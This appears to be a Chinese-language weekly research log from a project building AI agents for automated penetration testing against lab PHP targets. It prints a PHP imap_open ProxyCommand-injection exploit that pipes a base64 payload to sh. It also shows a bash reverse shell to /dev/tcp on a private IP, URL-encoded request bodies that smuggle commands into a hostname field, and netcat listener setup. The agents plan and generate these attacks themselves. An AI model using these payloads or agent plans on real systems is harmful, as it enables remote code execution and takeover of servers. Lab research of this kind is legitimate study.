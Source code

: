 # 250702

这周主要在针对php类漏洞进行测试，目标是获得执行reverse shell，获得目标靶机终端的控制权。

## 实验部分

比较官方的cve攻略链接里可能只有比较简单的example，但是我觉得应该至少攻击要执行到获取到目标靶机shell端的控制权的程度

![示意图](./image/250702/1751465457751.png)

![示意图](./image/250702/1751465042166.png)

## Search Agent

- 工具类的参数整理效果还行: `nc -nvlp {port}

  ```json
  {
  "tool_name": "nc (Netcat)",
  "tool_description": "A versatile networking utility used for reading from and writing to network connections using TCP or UDP. Commonly used for setting up reverse shells or listening on ports.",
  "tool_usage": "nc -lvnp {port}",
  "comment": "# -l : Listen mode, used to wait for an incoming connection\n# -v : Verbose output (optional)\n# -n : Numeric-only IP addresses, no DNS\n# -p 4444 : Port number to listen on (can be changed by replacing 4444 with your desired port)\n\n# Example: Change the listening port to 1234\nnc -lvnp 1234"
  }
  ```
- 脚本类的参数整理效果很不行，但是送到 `Generate Agent`那边推理过后可能最后能生成一个正确的脚本，效果不稳定

  ![1751465415250](https://file+.vscode-resource.vscode-cdn.net/d%3A/School/%E7%BB%84%E4%BC%9A/Agent-Penetration-Testing/Jiamei%20Chi/Markdown_Files/image/250702/1751465415250.png)

  ```json
  {
    "tool_name": "imap_open exploit script",
    "tool_description": "A proof-of-concept PHP script that exploits the imap_open function to execute arbitrary shell commands even when functions like exec are disabled, by injecting a malicious mailbox string with ProxyCommand.",
    "tool_usage": "<?php\n\n//{base64-encoded payload}",
    "comment": "Example payload: echo '123456789'>/tmp/test0001 encoded as: ZWNobyAnMTIzNDU2Nzg5Jz4vdG1wL3Rlc3QwMDAxCg==\n\n$server = \"x -oProxyCommand=echo\\tZWNobyAnMTIzNDU2Nzg5Jz4vdG1wL3Rlc3QwMDAxCg==|base64\\t-d|sh\";\n\n
  // Use imap_open to trigger the payload via ProxyCommand injection\nimap_open('{'.$server.':143/imap}INBOX', '', '') or die(\"\\n\\nError: \".imap_last_error());"
  }
  ```

## Planning Agent 

启用搜索的时机还要再规划一下

```html
PTT examples

4. reverse shell
  4.1 crafting a reverse shell request
    4.1.1 base64 encode(completed)
        echo 'echo "/bin/bash -i >& /dev/tcp/192.168.137.33/4444 0>&1" > /tmp/123' | base64
    4.1.2 modify request(completed)
        hostname=x+-oProxyCommand%3decho%09ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d|base64%09-d|sh}&username=111&password=222
  4.2 crafting a request to trigger the reverse shell
    4.2.1 base64 encode
  4.2 reverse shell
    4.2.1 local listening(completed)
        nc -lvp 4444
    4.2.1 crafting a request to trigger the reverse shell
        4.2.1.1 base64 encode(completed)
              echo '/bin/bash /tmp/123' | base64
        4.2.1.1 modify request(completed)
              hostname=x+-oProxyCommand%3decho%09ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d|base64%09-d|sh}&username=111&password=111

```
